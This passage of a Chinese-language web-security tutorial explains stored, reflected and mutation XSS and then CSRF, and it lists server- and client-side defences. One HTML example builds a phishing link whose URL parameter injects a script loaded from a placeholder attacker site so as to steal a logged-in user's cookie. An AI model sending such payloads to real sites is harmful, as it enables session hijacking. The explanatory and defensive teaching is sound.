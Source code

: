上述这种XSS攻击属于存储型，提交的代码会被存储在服务器端，下次请求目标网站时不用再提交XSS代码。所以这种类型的主要原因是前端提交的数据未经处理直接存储到数据库，然后从数据库中读取出来后直接插入到页面中导致的。

## 反射性xss
假设有一个网站lalala存在XSS漏洞，网址是http://www.lalala.com。然后有一天小A在邮件里发现一封邮件，内容是一张你懂得图片然后配下面的标签。

```html
<a href = "http://www.lalala.com?x=<script src = http://攻击者网站/hacker.js>>凤姐最新性感视频</a>
```
小A好奇啊，然后就点了进去，如果在此之前小A登录过lalala网站，那么他的Cookie就被盗走了。

这种XSS攻击属于反射型，发出请求时，XSS代码出现在URL中，作为输入提交到服务器，服务器解析后响应，XSS代码随着响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，故叫做反射型XSS。

## mxss
在渲染DOM属性时将攻击脚本插入DOM属性中被解析而导致的。
![](/images/assets/20200403105346299.png)
## 对应的解决方案
 **服务端可以做以下动作：**

1、刚刚上面讲到Cookie中有个属性时HTTP，设置为True，不允许JavaScript读取cookies，但该属性只适配部分浏览器。对于HTTPS可以设置Secure

2、处理富文本框输入内容，进行XSS过滤，过滤类似script、iframe、form等标签以及转义存储

**客户端可以做以下动作：**

1、输入检查，和服务端一样都要做。
2、输出检查，编码转义，如果使用jquery，就是那些append、html、before、after等，插入DOM的方法需要注意。现今大部分的MV*框架在模板（view层）会自动处理XSS问题。


# CSRF跨站请求伪造攻击
 CSRF（Cross-site request forgery）跨站请求伪造=，是一种对网站的恶意利用。

尽管听起来像跨站脚本（XSS），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装成受信任用户的请求来利用受信任的网站。

## 攻击原理
1. 用户打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A。

2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器。

3. 用户在未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B。

4. 网站B接收到用户请求后，发出一个访问网站A的请求。

5. 浏览器根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户的Cookie信息处理该请求，达到模拟用户操作的目的。

